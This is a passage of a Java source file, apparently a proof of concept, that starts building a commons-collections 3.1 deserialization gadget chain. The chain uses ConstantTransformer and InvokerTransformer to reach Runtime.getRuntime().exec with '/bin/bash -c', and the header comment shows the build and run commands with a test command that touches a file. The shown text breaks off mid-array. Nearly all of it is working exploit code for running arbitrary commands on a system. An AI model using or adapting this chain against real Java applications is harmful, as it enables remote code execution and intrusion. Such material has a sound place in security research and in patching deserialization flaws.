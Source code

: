 ```java
*
 * javac -encoding GBK -g -cp "commons-collections-3.1.jar" ConcurrentHashMapExec.java
 * java -cp "commons-collections-3.1.jar:." ConcurrentHashMapExec "/bin/touch /tmp/scz_is_here"
 */
import java.io.*;
import java.util.*;
import java.util.concurrent.ConcurrentHashMap;
import java.lang.reflect.*;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.keyvalue.TiedMapEntry;

public class ConcurrentHashMapExec
{
    @SuppressWarnings("unchecked")
    public static void main ( String[] argv ) throws Exception
    {
        String          cmd         = argv[0];
        Transformer[]   tarray      = new Transformer[]
        {
            new ConstantTransformer( Runtime.class ),
            new InvokerTransformer
            (
                "getMethod",
                new Class[]
                {
                    String.class,
                    Class[].class
                },
                new Object[]
                {
                    "getRuntime",
                    new Class[0]
                }
            ),
            new InvokerTransformer
            (
                "invoke",
                new Class[]
                {
                    Object.class,
                    Object[].class
                },
                new Object[]
                {
                    null,
                    new Object[0]
                }
            ),
            new InvokerTransformer
            (
                "exec",
                new Class[]
                {
                    String[].class
                },
                new Object[]
                {
                    new String[]
                    {
                        "/bin/bash",
                        "-c",
```